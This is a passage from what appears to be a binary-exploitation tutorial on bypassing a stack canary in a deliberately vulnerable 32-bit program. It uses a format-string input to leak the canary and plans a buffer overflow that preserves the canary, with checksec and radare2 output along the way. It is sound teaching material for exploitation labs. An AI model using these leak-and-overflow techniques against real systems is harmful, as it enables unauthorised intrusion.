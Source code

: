 The source is very simple - it gives you a format string vulnerability, then a buffer overflow vulnerability. The format string we can use to leak the canary value, then we can use that value to overwrite the canary with itself. This way, we can overflow past the canary but not trigger the check as its value remains constant. And of course, we just have to run `win()`.

##### 32-bit

[canary-32](../assets/canary-32.zip)

First, let's check if there **is** a canary:

```bash
$ pwn checksec vuln-32 
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Yup, there is. Now we need to calculate at what offset the canary is at and to do this we'll use radare2.

```bash
$ r2 -d -A vuln-32

[0xf7f2e0b0]> db 0x080491d7
[0xf7f2e0b0]> dc
Leak me
%p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
0xffd7cd60  0xffd7cd7c 0xffd7cdec 0x00000002 0x0804919e  |...............
0xffd7cd70  0x08048034 0x00000000 0xf7f57000 0x00007025  4........p..%p..
0xffd7cd80  0x00000000 0x00000000 0x08048034 0xf7f02a28  ........4...(*..
0xffd7cd90  0xf7f01000 0xf7f3e080 0x00000000 0xf7d53ade  .............:..
0xffd7cda0  0xf7f013fc 0xffffffff 0x00000000 0x080492cb  ................
0xffd7cdb0  0x00000001 0xffd7ce84 0xffd7ce8c 0xadc70e00  ................
```

The last value there is the canary. We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in `00` and looks very random, unlike the libc and stack addresses that start with `f7` and `ff`. If we count the number of addresses it's around 24 until that value, so we go one before and one after as well to make sure.

```bash
$./vuln-32

Leak me
%23$p %24$p %25$p
0xa4a50300 0xf7fae080 (nil)
```

It appears to be at `%23$p`. Remember, stack canaries are randomized for each new process, so it won't be the same.
